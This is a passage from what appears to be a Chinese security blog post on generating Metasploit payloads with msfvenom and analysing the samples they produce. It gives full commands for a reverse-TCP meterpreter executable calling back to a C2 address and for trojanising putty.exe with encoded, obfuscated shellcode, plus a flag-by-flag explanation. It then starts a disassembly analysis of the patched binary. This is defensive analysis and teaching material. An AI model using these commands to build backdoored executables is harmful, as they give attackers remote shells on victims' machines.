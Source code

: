 

## 生成MSF基本木马

所以可以通过msfvenom 加一些组合指令，进行msf payload的生成。最基本的生成指令为：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.230.129 LPORT=80 —platform win -f exe -o meterpreter_x86_tcp.exe
```

拆解一下可以得知

-p是刚才我们看到的payload类型，一共有五百多中

lhost 是需要指定的c2地址

lport 是需要制定的c2端口

—platform 是指定平台

-f 是指定format格式

-o是out表明输出路径

除此之外，还可以通过

-e 指定编码<br>
-b 指定过滤的坏字符<br>
-i 指定shellcode混淆的次数<br>
-c 指定要包含的额外的shellcode文件<br>
-x 指定一个自定义的可执行文件作为模板进行捆绑<br>
-k 保留原本的模板文件功能，创建新线程注入payload<br>
-t 指定payload等待时间等等

[![](https://p0.ssl.qhimg.com/t01e56fc93975ef0a99.png)](https://p0.ssl.qhimg.com/t01e56fc93975ef0a99.png)

这样一来，玩法就很多了，就光是平台、payload类型、format、encoder等参数组合生成，可生成的样本就已经是指数级上升了。



## MSF样本分析

### <a class="reference-link" name="%E5%88%9B%E7%BA%BF%E7%A8%8B%E7%B1%BB%E6%A0%B7%E6%9C%AC"></a>创线程类样本

生成常见patch putty类的样本，就是入口点创建线程，然后解密后续payload的类型，主要就是-k参数

```
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.1 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```

入口点代码如下：

[![](https://p3.ssl.qhimg.com/t0103e6c42dbbd14522.png)](https://p3.ssl.qhimg.com/t0103e6c42dbbd14522.png)

程序运行之后，首先会通过lea edx,byte_xxxx的方式将编码后的shellcode地址赋值给edx，然后创建线程执行edx处的函数。edx函数过来，前面一段解密代码，由于在生成样本的时候指定了i=3，所以这里会通过3个loop，边执行边解密后面的代码。

